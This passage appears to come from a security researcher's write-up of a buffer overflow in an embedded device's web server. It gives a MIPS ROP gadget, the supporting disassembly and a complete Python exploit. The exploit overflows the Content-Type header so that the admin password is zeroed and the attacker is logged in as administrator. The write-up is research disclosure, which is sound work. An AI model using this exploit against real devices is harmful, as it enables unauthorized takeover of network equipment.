80175fec  10 00 bd 27  _addiu  sp,sp,0x10   # must match the stack size of the parent
```

With this gadget, the exploit needs to overflow beyond the original buffer in order to ensure the address of the admin password is restored into `s0` by this selected ROP gadget and then returns to `FUN_80160a4c` (the grandparent of `FUN_801609d4`). Here is the final exploit (the 8 `0xA`s are padding for the 2 function stacks that are not used by our ROP gadget):

```python
import requests

header  = 'application/x-httpd-cgi'
filler  = 'B' * (0x48 - len(header))
s0      = '\x80\xB4\x25\x54'[::-1]   # address of the admin password
rop_ra  = '\x80\x17\x5F\xD8'[::-1]   # sw $zero, 0($s0) | $sp += 0x10
real_ra = '\x80\x16\x0F\x2C'[::-1]   # return address to the grandparent of FUN_801609d4
BUF = '{0}{1}{2}{3}AAAAAAAA{4}'.format(header, filler, s0, rop_ra, real_ra)
resp = requests.post("http://192.168.2.1/home.htm", headers = {
    'Content-Type': BUF
})
```

**NOTE:** In the exploit, the addresses are reversed before being sent because the target architecture is little endian _but_ network byte order is big endian.

Notice that the `real_ra` in the exploit is the address of the instruction _after_ calling the parent of the exploitable function. This is where the ROP gadget needs to return to in order to maintain "normal" code execution. The relevant assembly is as follows:

```assembly
80160f24  b0 8e 05 0c  jal  post_request  # parent of the vulnerable function
80160f28  25 20 60 02  _or  a0,s3,zero
80160f2c  04 00 00 10  b    LAB_80160f40  # where the ROP gadget returns to
```

When running this exploit, not only does the kernel not crash, but the main page at `dashboard.htm` shows the admin password as expected and authenticates the user as the administrator!
